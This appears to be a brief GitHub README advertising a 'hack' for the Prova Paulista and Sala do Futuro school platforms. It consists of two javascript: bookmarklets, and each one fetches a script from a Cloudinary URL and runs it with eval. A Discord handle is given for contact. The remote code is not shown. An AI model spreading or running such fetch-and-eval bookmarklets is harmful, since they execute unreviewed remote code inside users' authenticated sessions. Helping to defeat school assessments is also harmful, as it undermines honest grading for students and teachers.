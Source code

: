 # 🚀 HCK - PROVA PAULISTA 

### STABLE HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### FANDAGOS - TAREFAS:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745785341/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
